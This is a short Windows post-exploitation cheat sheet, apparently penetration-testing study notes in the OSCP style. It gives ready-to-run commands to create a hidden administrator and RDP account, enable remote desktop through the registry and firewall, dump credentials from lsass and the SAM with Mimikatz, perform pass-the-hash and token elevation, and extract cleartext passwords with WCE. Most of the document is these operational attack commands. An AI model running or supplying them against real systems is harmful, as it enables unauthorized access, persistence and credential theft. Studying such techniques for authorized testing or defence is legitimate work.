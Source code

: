 # Windows

## Add RDP user

```
net user hodor Qwerty123! /add
net localgroup administrators hodor /add
net localgroup "Remote Desktop Users" hodor /add
```

## Enable RDP

Via registry:

```text
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

Add firewall rule:

```text
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

## Rdesktop resolution

```text
rdesktop -g 1024x768 x.x.x.x
```

## Passwords and hashes

### Mimikatz

Extract passwords, keys, pin codes, tickets from "lsass" memory:

```text
privilege::debug
log sekurlsa.log
sekurlsa::logonpasswords
```

Pass-the-hash

```text
privilege::debug
log sekurlsa.log
sekurlsa::sekurlsa::pth /user:Administrator /domain:acme /ntlm:893efccda23744616cf7accab23ascbb /run:cmd
```

Elevate token

```text
privilege::debug
log sekurlsa.log
token::elevate
```

Dump SAM

```text
privilege::debug
log sekurlsa.log
lsadump::sam
```

## Windows Credential Editor \(WCE\)

Security tool that can be used to extract cleartext passwords and NTLM hashes from a Windows host. Administrator privileges are required.

{% embed url="https://www.ampliasecurity.com/research/windows-credentials-editor/" %}

```text
C:\> wce -w
```

## Networking

Is there a connection with another host?

```text
netstat -ano
```

Hosts file

```text
C:\WINDOWS\System32\drivers\etc\hosts
```

Firewall config

```text
netsh firewall show state
netsh firewall show config
netsh dump
```

## **References**

* \*\*\*\*[**https://oscp.securable.nl/**](https://oscp.securable.nl/)\*\*\*\*

